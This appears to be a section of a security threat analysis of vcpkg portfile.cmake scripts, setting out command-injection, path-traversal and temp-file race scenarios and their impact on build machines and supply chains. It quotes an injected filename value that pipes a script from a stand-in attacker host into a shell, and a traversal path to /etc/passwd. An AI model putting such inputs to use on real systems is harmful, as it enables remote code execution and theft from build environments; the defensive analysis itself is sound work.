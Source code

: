 #### 4.3. Exploitation Scenarios and Impact Deep Dive

Let's consider concrete exploitation scenarios and their potential impact:

*   **Scenario 1: Command Injection in Archive Extraction**
    *   **Vulnerability:** `portfile.cmake` uses `execute_process` to extract an archive downloaded from an untrusted source without proper filename sanitization.
    *   **Exploitation:** Attacker crafts a malicious archive filename containing injected commands (e.g., `; curl attacker.com/malicious.sh | sh`).
    *   **Impact:**
        *   **Local Code Execution:** Malicious script executes with the privileges of the vcpkg build process.
        *   **System Compromise:**  Attacker gains control of the build machine.
        *   **Privilege Escalation:** If the build process runs with elevated privileges (e.g., in CI/CD), the attacker could escalate privileges.
        *   **Malware Installation:** Install backdoors, rootkits, or other malware on the build machine.

*   **Scenario 2: Path Traversal during File Copy**
    *   **Vulnerability:** `portfile.cmake` copies files based on paths derived from untrusted sources without sufficient validation.
    *   **Exploitation:** Attacker provides a malicious path like `../../../../etc/passwd` as input.
    *   **Impact:**
        *   **Information Disclosure:** Read sensitive files like `/etc/passwd`, configuration files, or source code.
        *   **Data Exfiltration:**  Exfiltrate sensitive data from the build environment.
        *   **Denial of Service:** Overwrite critical system files, causing system instability or failure.

*   **Scenario 3: Insecure Temporary File Creation & Race Condition**
    *   **Vulnerability:** `portfile.cmake` creates temporary files in a predictable location with insecure permissions and is vulnerable to a race condition.
    *   **Exploitation:** Attacker predicts the temporary file name and location and creates a symbolic link to a sensitive file (e.g., a build script used later in the process). The build script, intending to operate on the temporary file, instead operates on the attacker's target file.
    *   **Impact:**
        *   **Code Modification:**  Attacker can modify build scripts or other files used in the build process.
        *   **Build Tampering:** Inject malicious code into build artifacts by modifying build scripts or input files.
        *   **Privilege Escalation:**  Potentially escalate privileges if the targeted file is executed with higher privileges later in the build process.

**Overall Impact Severity:** As stated, the risk severity is **High**, and can even be **Critical**. Successful exploitation can lead to:

*   **Local Code Execution:**  Direct and immediate compromise of the build machine.
*   **System Compromise:**  Full control over the build system, potentially leading to further attacks on internal networks or systems.
*   **Supply Chain Contamination:**  Injection of malicious code into build artifacts (libraries, executables) that are then distributed to users, potentially affecting a wide range of systems.
*   **Data Breach:**  Exfiltration of sensitive data from the build environment, including source code, credentials, or internal configurations.
*   **Denial of Service:**  Disruption of the build process, leading to delays or inability to build software.
